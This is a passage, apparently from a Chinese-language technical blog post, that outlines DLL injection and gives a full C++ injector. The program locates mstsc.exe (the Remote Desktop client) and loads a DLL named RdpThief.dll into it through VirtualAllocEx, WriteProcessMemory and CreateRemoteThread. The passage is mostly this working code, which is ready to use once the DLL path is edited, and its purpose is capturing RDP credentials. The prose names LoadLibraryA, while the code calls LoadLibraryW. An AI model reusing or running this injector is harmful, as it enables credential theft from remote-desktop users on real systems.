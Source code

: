 因为dll注入不是本文的重点，所以这里不会详细讲解，只列出大概的注入过程，有机会的话，后面我们可以仔细探讨一下。

1. 打开进程句柄
2. 分配一块可读写的内存空间
3. 将所需DLL的路径写入内存
4. 获得LoadLibraryA函数地址
5. 通过远程线程执行LoadLibraryA函数，并且指定参数为DLL路径的内存地址

这里多了一个`getPPID`函数，主要用于根据进程名，自动获取进程id，懒得每次手动输入 mstsc.exe 的 pid 了。

```cpp
#define _CRT_SECURE_NO_DEPRECATE

#include <iostream>
#include <Windows.h>
#include <TlHelp32.h>

// 根据进程名，获取进程id
DWORD getPPID(LPCWSTR processName) {
    HANDLE snapshot = CreateToolhelp32Snapshot(TH32CS_SNAPPROCESS, 0);
    PROCESSENTRY32 process = { 0 };
    process.dwSize = sizeof(process);

    if (Process32First(snapshot, &process)) {
        do {
            if (!wcscmp(process.szExeFile, processName))
                break;
        } while (Process32Next(snapshot, &process));
    }

    CloseHandle(snapshot);
    return process.th32ProcessID;
}

int main() {
    HANDLE processHandle;
    PVOID remoteBuffer;
    // 修改这里的dll路径
    wchar_t dllPath[] = TEXT("E:\\code\\RdpThief\\x64\\Release\\RdpThief.dll");

    LPCWSTR parentProcess = L"mstsc.exe";
    DWORD parentPID = getPPID(parentProcess);

    processHandle = OpenProcess(PROCESS_ALL_ACCESS, FALSE, parentPID);
    remoteBuffer = VirtualAllocEx(processHandle, NULL, sizeof dllPath, MEM_COMMIT, PAGE_READWRITE);
    WriteProcessMemory(processHandle, remoteBuffer, (LPVOID)dllPath, sizeof dllPath, NULL);
    PTHREAD_START_ROUTINE threatStartRoutineAddress = (PTHREAD_START_ROUTINE)GetProcAddress(GetModuleHandle(TEXT("Kernel32")), "LoadLibraryW");
    CreateRemoteThread(processHandle, NULL, 0, threatStartRoutineAddress, remoteBuffer, 0, NULL);
    CloseHandle(processHandle);

    return 0;
}
```
